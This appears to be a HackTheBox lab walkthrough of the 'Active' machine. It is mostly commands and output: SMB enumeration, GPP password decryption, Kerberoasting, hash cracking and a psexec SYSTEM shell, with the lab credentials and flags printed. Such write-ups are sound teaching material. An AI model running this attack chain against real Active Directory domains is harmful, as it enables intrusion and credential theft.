



Active
| Title | Active |
|---|---|
| Description | Walkthrough of the “Active” machine on HackTheBox, showcasing SMB enumeration, GPP password extraction, Kerberoasting, and gaining SYSTEM access via Impacket’s PsExec. |
| Difficulty | Easy |
| Maker | eks & mrb3n8132 |
Enumeration
Nmap
└─$ nmap -sC -sV -oA nmap/active 10.10.10.100
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-20 20:45 EDT
Nmap scan report for 10.10.10.100
Host is up (0.093s latency).
Not shown: 982 closed tcp ports (reset)
PORT STATE SERVICE VERSION
53/tcp open domain Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_ bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-05-21 00:47:06Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
49152/tcp open msrpc Microsoft Windows RPC
49153/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
49155/tcp open msrpc Microsoft Windows RPC
49157/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49158/tcp open msrpc Microsoft Windows RPC
49165/tcp open msrpc Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 1m34s
| smb2-time:
| date: 2025-05-21T00:48:04
|_ start_date: 2025-05-20T18:39:45
| smb2-security-mode:
| 2:1:0:
|_ Message signing enabled and requiredFrom nmap results, we can see there are multiple ports that is open, and it seems it’s an active directory box! Let’s start by enumerating smb.
SMB
It allows anonymous login in SMB
└─$ smbclient -L \\10.10.10.100
Password for [WORKGROUP\kali]:
Anonymous login successful
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
Replication Disk
SYSVOL Disk Logon server share
Users DiskI have tried enumerating each shares but all are giving NT_STATUS_ACCESS_DENIED except Replication. There are number of files in this share so I think it will be better if we download all the files from smbclient.
smb: \active.htb\> recurse ON
smb: \active.htb\> prompt OFF
smb: \active.htb\> mget *
Let’s see if we can get anything out of these files. we can use grep and search for password or search for any other sensitive words.└─$ grep -Ri pass
Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml:<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>From this we can deduce,
- The name is:
name="active.htb\SVC_TGS" - The password is:
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" - It’s from
Groups.xmlfile If we google around about the termscpasswordorGPP Passwordwe will find this tool that will decrypt the password, we will usecpasswordwhich we got from smbshare and decrypt it. - https://github.com/t0thkr1s/gpp-decrypt

Password:
GPPstillStandingStrong2k18
| User | Pass |
|---|---|
| svc_tgs | GPPstillStandingStrong2k18 |
User Flag
Now, we we enumerate User share using smbclient from this creds, we will get the user flag.
smb: \SVC_TGS\> ls
. D 0 Sat Jul 21 11:16:32 2018
.. D 0 Sat Jul 21 11:16:32 2018
Contacts D 0 Sat Jul 21 11:14:11 2018
Desktop D 0 Sat Jul 21 11:14:42 2018
Downloads D 0 Sat Jul 21 11:14:23 2018
Favorites D 0 Sat Jul 21 11:14:44 2018
Links D 0 Sat Jul 21 11:14:57 2018
My Documents D 0 Sat Jul 21 11:15:03 2018
My Music D 0 Sat Jul 21 11:15:32 2018
My Pictures D 0 Sat Jul 21 11:15:43 2018
My Videos D 0 Sat Jul 21 11:15:53 2018
Saved Games D 0 Sat Jul 21 11:16:12 2018
Searches D 0 Sat Jul 21 11:16:24 2018
5217023 blocks of size 4096. 278104 blocks available
smb: \SVC_TGS\> cd Desktop
smb: \SVC_TGS\Desktop\> ls
. D 0 Sat Jul 21 11:14:42 2018
.. D 0 Sat Jul 21 11:14:42 2018
user.txt AR 34 Tue May 20 14:40:54 2025
5217023 blocks of size 4096. 278104 blocks available
smb: \SVC_TGS\Desktop\> get user.txt
getting file \SVC_TGS\Desktop\user.txt of size 34 as user.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \SVC_TGS\Desktop\> !cat user.txt
7998c6ad0924df89a0d04aa098b02228User Flag:
7998c6ad0924df89a0d04aa098b02228
Root Flag
As we have creds from svc_tgs user, we will try Kerberoasting and the best tool to use is
└─$ python3 targetedKerberoast.py -v -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (Administrator)
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$195c00ebe8a0022774c5a271ef02a0ec$c09c7131eb54bcdd145a7cc4ebc5cf15d24815ec1c2a3b38e9c525b6a4f9f6510a158071d4077142a70bb50e6690f207f4ad0d12dfd89212c5b2af8e77d75f7cf4c8167c23e8ea945ed0a405259676600d8a9479633a275f082f6adc3415b0a813f9f659d34e5d028605b3221b2e287075eebd369dfb8a41f0f420ad23c9cf41a85a13b1d9639ef42ac2642ff8597f87485581d24d902dab390a07d95577812373f19843900b2008f2a2a721a69f4842f856f7c75bb997a73a0248e0dd07ad4290d45270170c1dccf47ab453286fd27d6e7166dd9bb4625aa64780b914f5874d4ac18707653a56c31f216b24c2bfa72bbbc40bb101011ec76e181aa2dcfb6f0332ecab142029409b278282562abcb41d334ee80af2b8efd04356205ca0b5092c1fe7ccf8709181bdb3fd948132d50a233b4b667edf413cd58731151bd5bd5c8b8d8e52394fd92c2175f2d416af49d6d6c368a022ae9ba148c3e08bb1384df2e8c2cb6977c36391dabe1f00c0b18c4c37fb902f54cca8ca5245f38ebd0fe6a474a312ebc16601dc52418acaa9ad22df37cdc09fad06e995a70155865765d65d9b98f6a9aaf269faf7ba664b9a1682e4b8b531be8afa30a8b54ef1e37fc6b9f5b899c86e4258054bf40ab216e1466282729fd5c25feceddd1eb4d8d69bcb0bdd540477dfc6ef055174eaa8fad8b0b1e77cc53889e3c923f65081f49ec0cf95542e5627b92389e6d3e7aded85a6b91b5229526f000f107d746672cc3edeb248ae7912bea38cb52527d17b43c24390f49d7f9271c0027cd6fadd8380567bfaf2f98a17ba8d1b9c381dbce34aa9eea67673b8d851d26c07634c34d6411d0714fc873f8ca414696b7f5bd3930ef0cc78b3de7538eac5684d3674e7e689a37f359db76366d1add80ac54e58651e1364eb2cea6e0f99789636bc108436e6ae0219d44015b74f71a71eaeb134e256c8f5962a1c4c74a00f24d712c8b720aa327e0c223c7f7e82ccf600fae74a1dbdccaa55394dc2fe81af9d3a6e789ef3e1fed087b52e1702ba6f13e4e5ece6654637ab7a73c0620515bb9a7c4eae7a9f383b664a356844f2758173ade77b8aa08a42fed1105aae7755c665a8d1aea2cdadc1c64c2519e0c8ada3cdb4a7b81d9d7c1cb7961b5444ad88f0c89443e2f1f1dc53410cf8f1899ee632d7bf1765f04463ecb2848c70e5e2e82443885da1adc136a5080646737158413e4dce997fc2cb566cb9f3184a5e2872e287a2297fa0d0abWe will make a file called admin.hash with this ticket and using john we can able to decrypt the hash.
Password:
Ticketmaster1968
| User | Password |
|---|---|
| Administrator | Ticketmaster1968 |

Using impacket’s psexec we can able to get interactive shell.└─$ impacket-psexec active.htb/administrator:Ticketmaster1968@10.10.10.100
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file PkmJJObt.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service COiq on 10.10.10.100.....
[*] Starting service COiq.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
3cad3a24fef49c9481845d7ed7942d6bFlag: 3cad3a24fef49c9481845d7ed7942d6b